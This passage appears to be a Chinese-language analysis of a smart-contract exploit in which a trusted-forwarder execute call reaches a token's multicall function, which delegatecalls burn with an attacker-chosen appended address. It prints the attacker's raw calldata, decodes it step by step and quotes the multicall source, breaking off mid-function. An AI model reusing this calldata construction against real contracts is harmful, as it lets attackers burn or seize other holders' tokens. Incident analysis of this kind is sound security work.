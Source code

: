 execute 函数中，验证 req.from 的签名过后会用 call 交互 req.to（代币地址）。其中攻击者传入的 req.data 为

![标题: fig: - 说明 image-20231210011000963](assets/1703485218-ad773814423a2ea48df39f386e5a304f.png) 0xac9650d8000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000003842966c680000000000000000000000000000000000000000c9112ec16d958e8da8180000760dc1e043d99394a10605b2fa08f123d60faf840000000000000000

因为 0xac9650d8 为 multicall 函数的函数签名，故会调用代币合约的 multicall 函数，并且multicall 函数传入的 data 值为:

![标题: fig: - 说明 image-20231210011441674](assets/1703485218-85ab5e4d88c64285abad21ea62840679.png)0x42966c680000000000000000000000000000000000000000c9112ec16d958e8da8180000760dc1e043d99394a10605b2fa08f123d60faf84

所以传入的data就是

```js
0xac9650d8
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000001
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000038
0x42966c680000000000000000000000000000000000000000c9112ec16d958e8da8180000760dc1e043d99394a10605b2fa08f123d60faf84
```

> 为什么传入 multicall 函数的 data 值中没有 req.from 呢？这是因为 EVM 底层处理 call 调用时会根据其中的偏移量而截断所需要的值，而攻击者传入的 calldata 值中设定偏移量是 38，数值长度为 1，所以刚好截取出来的 data 值是42966c680000000000000000000000000000000000000000c9112ec16d958e8da8180000760dc1e043d99394a10605b2fa08f123d60faf84  
> 具体可以参考 [(evm.codes)](https://www.evm.codes/?fork=shanghai)

因为0x42966c68为 burn 函数的函数签名,所以会根据攻击者构造的 data 值去 delegatecall 调用代币合约的 burn 函数。

MulticallUpgradeable.sol

```js
    function multicall(bytes\[\] calldata data) external virtual returns (bytes\[\] memory results) {  
        results = new bytes\[\](data.length);  
        for (uint256 i = 0; i < data.length; i++) {  
            results\[i\] = \_functionDelegateCall(address(this), data\[i\]);  
        }  
        return results;  
    }  
\--------------------------------------------------------------------------------------------------------------------------------  
    function \_functionDelegateCall(address target, bytes memory data) private returns (bytes memory) {  
        require(AddressUpgradeable.isContract(target), "Address: delegate call to non-contract");  

        // solhint-disable-next-line avoid-low-level-calls  
```